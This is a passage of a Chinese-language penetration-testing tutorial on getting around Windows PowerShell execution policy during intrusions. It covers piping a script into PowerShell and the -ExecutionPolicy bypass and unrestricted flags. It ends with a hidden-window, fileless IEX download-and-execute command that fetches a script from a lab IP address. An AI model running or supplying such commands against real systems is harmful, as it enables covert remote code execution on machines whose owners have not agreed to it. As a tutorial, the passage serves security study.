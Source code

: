 ![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfx8FzJYeP0X2KZHVe63RQJUXDVxYTOpBE2GJgj1kY1CJa3qq0PNGUCBg/640?wx_fmt=png)

此时执行便不在报错，成功执行我们的脚本

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxFp53CZ7ReWRibCiaSFzIx9iaO0bpqVXmSibRFpI81yicxQhKRtgbuGUUGiaw/640?wx_fmt=png)

### 03. 绕过执行策略：

当然我们在渗透中，遇到执行策略配置是默认不执行的，我们再去通过管理员权限去修改就太鸡肋，动作太大了，所以便有了绕过执行策略，去执行我们的脚本以及 powershell 命令，下面来介绍几种常见的绕过方式。

为便于演示，我们再次将执行策略设为默认不允许任意脚本的执行

Get-ExecutionPolicy `Restricted`

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfx9Om47yVQiaBvlhZF0vgLrZ43m3KYelEbN5ib4NKNcCBlhpYUzUAsibuTQ/640?wx_fmt=png)

第一种:

以文件落地为例：

**本地读取然后通过管道符运行  
**

```
powershell Get-Content tubai.ps1 | powershell -NoProfile -

```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxdXl2jXJV7FK03NjNkxYV1ucgDrBJwflYibJI5IFKT5BDPI2vGsADhkQ/640?wx_fmt=png)**Bypass 执行策略绕过  
**

powershell -ExecutionPolicy bypass -File ./tubai.ps1  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxxVeMgQR6ibm2OqfLE3kwQAYovZkMS1cNjfibic3fZF8TqUcJKmicFmjDQw/640?wx_fmt=png)  

**Unrestricted 执行策略标志  
**

**powershell -ExecutionPolicy unrestricted -File ./tubai.ps1  
**

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiaNaczlVIa65KW9EjV7zgfxaHCRvrfWJrD8PyJnuV2kOqJppYyBRjBvL25DBSTY2U0jWd4qr7rQ4w/640?wx_fmt=png)

可以看到以上 bypass 方式均成功绕过执行策略。  

以文件不落地为例：

**远程下载并通过 IEX 运行脚本  
**

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.52.23:80/a'))"

```
